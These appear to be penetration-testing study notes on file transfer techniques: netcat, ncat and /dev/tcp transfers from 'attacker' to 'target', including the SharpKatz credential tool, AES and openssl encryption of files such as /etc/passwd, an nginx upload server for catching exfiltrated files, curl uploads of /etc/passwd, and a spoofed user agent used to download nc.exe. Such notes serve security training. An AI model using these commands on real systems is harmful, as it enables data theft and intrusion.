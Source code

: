 ## Netcat 
Target:
#nc
```shell
nc -l -p 8000 > <filename>
```
#Ncat
```shell
 ncat -l -p 8000 --recv-only > <filename>
```

Attacker:
nc
```shell
nc -q 0 <ip> 8000 < <filename>
```
ncat:
```shell
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

## Dev/TCP
```shell
 cat < /dev/tcp/<ip>/<port> > <filename>
```


## Protected File Transfers
Sensitive files can be obtained. 
#### File encryption
##### Windows 
```powershell
.EXAMPLE
Invoke-AESEncryption -Mode Encrypt -Key "p@ssw0rd" -Text "Secret Text" 

Description
-----------
Encrypts the string "Secret Test" and outputs a Base64 encoded ciphertext.
 
.EXAMPLE
Invoke-AESEncryption -Mode Decrypt -Key "p@ssw0rd" -Text "LtxcRelxrDLrDB9rBD6JrfX/czKjZ2CUJkrg++kAMfs="
 
Description
-----------
Decrypts the Base64 encoded string "LtxcRelxrDLrDB9rBD6JrfX/czKjZ2CUJkrg++kAMfs=" and outputs plain text.
 
.EXAMPLE
Invoke-AESEncryption -Mode Encrypt -Key "p@ssw0rd" -Path file.bin
 
Description
-----------
Encrypts the file "file.bin" and outputs an encrypted file "file.bin.aes"
 
.EXAMPLE
Invoke-AESEncryption -Mode Decrypt -Key "p@ssw0rd" -Path file.bin.aes
 
Description
-----------
Decrypts the file "file.bin.aes" and outputs an encrypted file "file.bin"
#>
function Invoke-AESEncryption {
    [CmdletBinding()]
    [OutputType([string])]
    Param
    (
        [Parameter(Mandatory = $true)]
        [ValidateSet('Encrypt', 'Decrypt')]
        [String]$Mode,

        [Parameter(Mandatory = $true)]
        [String]$Key,

        [Parameter(Mandatory = $true, ParameterSetName = "CryptText")]
        [String]$Text,

        [Parameter(Mandatory = $true, ParameterSetName = "CryptFile")]
        [String]$Path
    )

    Begin {
        $shaManaged = New-Object System.Security.Cryptography.SHA256Managed
        $aesManaged = New-Object System.Security.Cryptography.AesManaged
        $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
        $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::Zeros
        $aesManaged.BlockSize = 128
        $aesManaged.KeySize = 256
    }

    Process {
        $aesManaged.Key = $shaManaged.ComputeHash([System.Text.Encoding]::UTF8.GetBytes($Key))

        switch ($Mode) {
            'Encrypt' {
                if ($Text) {$plainBytes = [System.Text.Encoding]::UTF8.GetBytes($Text)}
                
                if ($Path) {
                    $File = Get-Item -Path $Path -ErrorAction SilentlyContinue
                    if (!$File.FullName) {
                        Write-Error -Message "File not found!"
                        break
                    }
                    $plainBytes = [System.IO.File]::ReadAllBytes($File.FullName)
                    $outPath = $File.FullName + ".aes"
                }

                $encryptor = $aesManaged.CreateEncryptor()
                $encryptedBytes = $encryptor.TransformFinalBlock($plainBytes, 0, $plainBytes.Length)
                $encryptedBytes = $aesManaged.IV + $encryptedBytes
                $aesManaged.Dispose()

                if ($Text) {return [System.Convert]::ToBase64String($encryptedBytes)}
                
                if ($Path) {
                    [System.IO.File]::WriteAllBytes($outPath, $encryptedBytes)
                    (Get-Item $outPath).LastWriteTime = $File.LastWriteTime
                    return "File encrypted to $outPath"
                }
            }

            'Decrypt' {
                if ($Text) {$cipherBytes = [System.Convert]::FromBase64String($Text)}
                
                if ($Path) {
                    $File = Get-Item -Path $Path -ErrorAction SilentlyContinue
                    if (!$File.FullName) {
                        Write-Error -Message "File not found!"
                        break
                    }
                    $cipherBytes = [System.IO.File]::ReadAllBytes($File.FullName)
                    $outPath = $File.FullName -replace ".aes"
                }

                $aesManaged.IV = $cipherBytes[0..15]
                $decryptor = $aesManaged.CreateDecryptor()
                $decryptedBytes = $decryptor.TransformFinalBlock($cipherBytes, 16, $cipherBytes.Length - 16)
                $aesManaged.Dispose()

                if ($Text) {return [System.Text.Encoding]::UTF8.GetString($decryptedBytes).Trim([char]0)}
                
                if ($Path) {
                    [System.IO.File]::WriteAllBytes($outPath, $decryptedBytes)
                    (Get-Item $outPath).LastWriteTime = $File.LastWriteTime
                    return "File decrypted to $outPath"
                }
            }
        }
    }

    End {
        $shaManaged.Dispose()
        $aesManaged.Dispose()
    }
}
```

##### Linux 
```shell
openssl enc -aes256 -iter 100000 -pbkdf2 -in /etc/passwd -out passwd.enc
```
```shell

openssl enc -d -aes256 -iter 100000 -pbkdf2 -in passwd.enc -out passwd                    
```
## Catching files over HTTP/s
Most common protocol to be allowed through firewalls.
File is often encrypted in transit.
### Nginx 
Create a directory to handle files.
```shell
sudo mkdir -p /var/www/uploads/SecretUploadDirectory
```
Change owner of #www-data
```shell
 sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory
```
Create a file called upload.conf:
`/etc/nginx/sites-available/upload.conf`
```notepad
server {
    listen 9001;
    
    location /SecretUploadDirectory/ {
        root    /var/www/uploads;
        dav_methods PUT;
    }
}
```

Sym link site to the sites enabled directory 
```shell
sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/
```
start #nginx
```shell
 sudo systemctl restart nginx.service
```

Verify errors
```shell
tail -2 `/var/log/nginx/error.log`
```

```shell
ss -lnpt | grep `80`
```

```shell
ps -ef | grep `2811`
```
Remove Default config?
```shell
sudo rm /etc/nginx/sites-enabled/default
```

Upload Files using #cURL 
```shell
curl -T /etc/passwd http://localhost:9001/SecretUploadDirectory/users.txt
```

# Living of the land 
[Windows](https://lolbas-project.github.io/#)
[Linux](https://gtfobins.github.io/)


# Changing user agent
```powershell
$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
```
```powershell
Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```


